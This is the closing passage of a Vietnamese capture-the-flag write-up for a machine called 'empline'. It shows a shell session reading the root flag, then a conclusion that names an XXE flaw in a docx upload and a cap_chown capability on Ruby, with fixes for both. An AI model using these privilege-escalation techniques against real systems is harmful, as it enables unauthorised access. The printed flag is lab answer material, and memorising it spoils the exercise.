drwxr-xr-x   2 root   root    4096 Jun 23  2021 mnt
drwxr-xr-x   2 root   root    4096 Jun 23  2021 opt
dr-xr-xr-x 107 root   root       0 Oct  5 18:33 proc
drwx------   4 george george  4096 Jul 20  2021 root
drwxr-xr-x  26 root   root     880 Oct  5 19:17 run
drwxr-xr-x   2 root   root    4096 Jun 23  2021 sbin
drwxr-xr-x   2 root   root    4096 Jul 20  2021 snap
drwxr-xr-x   2 root   root    4096 Jun 23  2021 srv
dr-xr-xr-x  13 root   root       0 Oct  5 19:23 sys
drwxrwxrwt   9 root   root    4096 Oct  5 19:24 tmp
drwxr-xr-x  11 root   root    4096 Jun 23  2021 usr
drwxr-xr-x   2 root   root    4096 Jul 20  2021 vagrant
drwxr-xr-x  14 root   root    4096 Jul 20  2021 var
lrwxrwxrwx   1 root   root      31 Jun 23  2021 vmlinuz -> boot/vmlinuz-4.15.0-147-generic
lrwxrwxrwx   1 root   root      31 Jun 23  2021 vmlinuz.old -> boot/vmlinuz-4.15.0-147-generic
```

> Đọc Root Flag:
```bash
george@empline:/$ cd root/
george@empline:/root$ ls -al
total 36
drwx------  4 george george 4096 Jul 20  2021 .
drwxr-xr-x 24 root   root   4096 Oct  5 18:34 ..
-rw-------  1 root   root      5 Jul 20  2021 .bash_history
-rw-r--r--  1 root   root   3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root   root   4096 Jul 20  2021 .local
-rw-r--r--  1 root   root    148 Aug 17  2015 .profile
drwx------  2 root   root   4096 Jul 20  2021 .ssh
-rw-r--r--  1 root   root    227 Jul 20  2021 .wget-hsts
-rw-r--r--  1 root   root     33 Jul 20  2021 root.txt
george@empline:/root$ cat root.txt 
74fea7cd0556e9c6f22e6f54bc68f5d5
```

---

## Conclusion

>[!NOTE]
>Máy mục tiêu có tồn tại lỗ hổng XXE ở chức năng tải lên tệp docx 
>Cấu hình tệp /usr/local/bin/ruby với cap_chown khiến ai cũng có khả năng thay đổi quyền sở hữu các tệp nhạy cảm 
>
>Cách khắc phục:
>+ Cập nhật phiên bản mới trên dịch vụ web 
>+ Xóa cap_chown được cấp cho ruby 

---

## Tools Used

- Nmap
- Feroxbuster 
- Python